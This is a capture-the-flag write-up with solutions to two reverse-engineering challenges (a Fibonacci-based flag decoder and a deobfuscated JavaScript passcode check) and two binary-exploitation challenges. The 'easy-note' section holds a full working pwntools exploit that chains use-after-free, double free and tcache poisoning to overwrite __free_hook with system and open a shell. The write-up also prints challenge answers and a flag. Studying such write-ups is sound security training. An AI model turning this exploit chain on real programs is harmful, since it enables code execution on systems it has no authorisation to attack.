

## Reverse
### Annnnnnny-Second-Now

The function `super_optimized_calculation` is a Fibonacci generator.
To solve this chall, we just use the 90th Fibonacci number and modulo it by each number in the v6 array.

Code: 
```python
v6=[0]*25  

v6[0] = 35831;
v6[1] = 143;
v6[2] = 1061;
v6[3] = 877;
v6[4] = 29463179;
v6[5] = 229;
v6[6] = 112;
v6[7] = 337;
v6[8] = 1061;
v6[9] = 47;
v6[10] = 29599;
v6[11] = 145;
v6[12] = 127;
v6[13] = 271639;
v6[14] = 127;
v6[15] = 353;
v6[16] = 193;
v6[17] = 191;
v6[18] = 337;
v6[19] = 1061;
v6[20] = 193;
v6[21] = 353;
v6[22] = 269;
v6[23] = 487;
v6[24] = 245;

a = 2880067194370816120 & ((1<<64)-1)

for i in v6:
    print(chr(a%i),end='')

```
### js-safe

After deobfuscating the code, we can see that the function `addToPassword` use some operation to check the pass code. If true, it uses this pass code as a key to decrypt the AES encrypted flag.

```javascript
function addToPassword(_0x43b7e8) {
    if (_0x12b1c8.length < 0x6) {
      _0x12b1c8 += _0x43b7e8;
      _0x38a66f();
      if (_0x12b1c8.length === 0x6) {
        let _0xf3bbf = Array(0x6);
        for (let _0x2c8c6a = 0x0; _0x2c8c6a < 0x6; _0x2c8c6a += 0x1) {
          _0xf3bbf[_0x2c8c6a] = _0x12b1c8[_0x2c8c6a].charCodeAt(0x0);
        }
        let _0x4cedc7 = true;
        _0x4cedc7 &= _0xf3bbf[0x4] == _0xf3bbf[0x1] - 0x4;
        _0x4cedc7 &= _0xf3bbf[0x1] == (_0xf3bbf[0x0] ^ 0x44);
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x2] - 0x7;
        _0x4cedc7 &= _0xf3bbf[0x3] == (_0xf3bbf[0x2] ^ 0x25);
        _0x4cedc7 &= _0xf3bbf[0x5] == (_0xf3bbf[0x0] ^ 0x14);
        _0x4cedc7 &= _0xf3bbf[0x4] == _0xf3bbf[0x1] - 0x4;
        _0x4cedc7 &= _0xf3bbf[0x0] == (_0xf3bbf[0x3] ^ 0x22);
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x2] - 0x7;
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x5] + 0xc;
        _0x4cedc7 &= _0xf3bbf[0x2] == _0xf3bbf[0x4] + 0x47;
        _0x4cedc7 &= _0xf3bbf[0x2] == (_0xf3bbf[0x5] ^ 0x13);
        _0x4cedc7 &= _0xf3bbf[0x5] == (_0xf3bbf[0x3] ^ 0x36);
        _0x4cedc7 &= 0x52 == _0xf3bbf[0x3];
        if (_0x4cedc7) {
          document.getElementById("display").classList.add("correct");
          let _0x401b01 = CryptoJS.AES.decrypt("U2FsdGVkX19WKWdho02xWkalqVZ3YrA7QrNN4JPOIb5OEO0CW3Qj8trHrcQNOwsw", _0x12b1c8).toString(CryptoJS.enc.Utf8);
          console.log(_0x401b01);
          document.getElementById("display").textContent = _0x401b01;
        } else {
          document.getElementById("display").classList.add("wrong");
        }
      }
    }
}
```
After calculating, we get the pass code is `p4wR0d`. Use this pass code to decrypt the flag.

Flag: `bctf{345y-p4s5w0rd->w<}`


## Pwn
### shall-we-play-a-game

Because we can input v7 with the length 86, we can overwrite the return address of the function `main` to the address of the function `global_thermo_nuclear_war` to get the flag.


```python
from pwn import *


```
### easy-note

This challenge give us a menu which have 5 options: add, delete, view, edit and resize. The binary allow us to modify the content of note whatever it is free or not. To solve it, I use the UAF and tcache poisoning technique to get the shell.

First, we will use double free to leak the address of heap.
```python
add(0,0x80) # use for heap leak
add(1,0x80) # use for libc leak
add(2,0x80) # Prevent consolidation with top chunk

# Use double free to leak heap address
delete(0)
delete(0)

view(0)

heap =u64(p.recvline().strip().ljust(8, b'\x00')) - 0x260
log.info('[+] Heap base: '+hex(heap))
```
With heap base address, I can get chunk inside the `tcache_perthread_struct` by overwriting the fd of the chunk at index 0(now it is 0x80 tcache). 


```python
edit(0,8,p64(heap+0x10))
```
Next, I allocate 2 chunks to get the chunk inside the `tcache_perthread_struct`. Then, I overwrite the size value of the 0x80 tcache bin, make it look like full.
```python
add(3,0x80)
add(4,0x80)
edit(4,8,p64(0x0700000000000000))
```
Now, I free the chunk at index 1 to make it into the unsorted bin and leak the libc address.

```python
delete(1)
view(1)
```
With libc address, I edit the first 0x80 tcache value is __free_hook and make the size value of 0x80 tcache bin is 0. Then, I allocate a 0x80 chunk to get the __free_hook address. 
```python
edit(4,0x78+8,b'\x00'*0x78+p64(libc.sym['__free_hook']))
add(5,0x80)
```
Finally, I overwrite the __free_hook with the address of system and get the shell.
```python
edit(5,8,p64(libc.sym['system']))
edit(0,8,'/bin/sh\x00')
delete(0)

```

#### Full exploit
```python
from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

p = process([exe.path])


def add(pos,size):
    p.sendline(b'1')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
def delete(pos):
    p.sendline(b'2')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
def view(pos):
    p.sendline(b'3')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())    
def edit(pos,size,mes):
    p.sendline(b'4')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
    p.sendline(mes) 

def resize(pos,size):
    p.sendline(b'6')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())


add(0,0x80)
add(1,0x80)
add(2,0x80)

delete(0)
delete(0)

view(0)

heap =u64(p.recvline().strip().ljust(8, b'\x00')) - 0x260
log.info('[+] Heap base: '+hex(heap))

# tcache poisoning

edit(0,8,p64(heap+0x10))
add(3,0x80)
add(4,0x80)
edit(4,8,p64(0x0700000000000000))

# Leak libc
delete(1)
view(1)

libc.address = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x3ebca0+0x3c000
log.info('[+] Libc base: '+hex(libc.address))
log.info("[+] Free hook address: "+hex(libc.sym['__free_hook']))

edit(4,0x78+8,b'\x00'*0x78+p64(libc.sym['__free_hook']))
add(5,0x80)

edit(5,8,p64(libc.sym['system']))
edit(0,8,'/bin/sh\x00')
delete(0)

p.interactive()
```
